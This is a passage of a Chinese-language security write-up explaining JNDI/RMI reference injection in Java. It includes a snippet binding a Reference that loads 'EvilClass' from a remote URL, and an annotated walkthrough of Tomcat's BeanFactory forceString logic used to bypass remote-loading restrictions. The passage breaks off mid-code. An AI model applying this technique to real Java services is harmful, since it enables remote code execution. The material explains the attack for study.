   这里的一个攻击思路就很明显了:`因为RegistryContext会解析ReferenceWrapper对象成Reference，如果Reference存在Factory的话还会进一步decode，从FactroyURL加载Factory并调用其getObjectInstance返回一个对象。本质上就是从远程加载类，直接开一个恶意类提供服务就行了。`
  
  ```java
  eference reference = new Reference("whatever","EvilClass","http://localhost:16000/");
  ReferenceWrapper wrapper = new ReferenceWrapper(reference);
  registry.rebind("Foo", wrapper);
  ```
  
  但是很显然高版本是默认关闭从远程加载的，但是本地的还是可以的。`org.apache.naming.factory.BeanFactory`+`EL`表达式还是可以的
  
  > 参考链接：https://github.com/apache/tomcat/blob/8e2aa5e45ce13388da62386e3cb1dbfa3b242b4b/java/org/apache/naming/factory/BeanFactory.java
  
  把代码简化一下
  
  ```java
  Reference ref = (Reference) obj;
  
  //加载refrence classname对应的类为beanClass,并实例化
  String beanClassName = ref.getClassName();
  Class<?> beanClass = null;
  ClassLoader tcl = Thread.currentThread().getContextClassLoader();
  if (tcl != null) {
      beanClass = tcl.loadClass(beanClassName);
  } else {
      beanClass = Class.forName(beanClassName);
  }
  BeanInfo bi = Introspector.getBeanInfo(beanClass);
  PropertyDescriptor[] pda = bi.getPropertyDescriptors();
  Object bean = beanClass.getConstructor().newInstance();
  //然后找Reference的forceString属性
  RefAddr ra = ref.get("forceString");
  Map<String, Method> forced = new HashMap<>();
  String value = (String)ra.getContent();
  Class<?> paramTypes[] = new Class[1];
  paramTypes[0] = String.class;
  String setterName;
  int index;
  //将对应Reference的forceString属性值以逗号分隔为param
  for (String param: value.split(",")) {
      param = param.trim();
      //尝试将param分割成 x=y 的格式 或者xxx
      index = param.indexOf('=');
      //case 1: setterName = x param = y
      if (index >= 0) {
          setterName = param.substring(index + 1).trim();
          param = param.substring(0, index).trim();
      } else { //case 2:setterName = setXxxx （Java Bean规范）
          setterName = "set" +
                       param.substring(0, 1).toUpperCase(Locale.ENGLISH) +
                       param.substring(1);
      }
      //这里将beanClass对应的以setterName为名的参数为String类型的方法放进forced Map中，并以param为键值
      forced.put(param,beanClass.getMethod(setterName, paramTypes));
  }
  //获取Reference的所有RefAddr，并遍历
  Enumeration<RefAddr> e = ref.getAll();
  while (e.hasMoreElements()) {
      ra = e.nextElement();
      String propName = ra.getType();
      value = (String)ra.getContent();
      Object[] valueArray = new Object[1];
      //从forcemap里拿 propName（就是当前RefAddr的Type）对应的方法
      Method method = forced.get(propName);
      if (method != null) {
  ```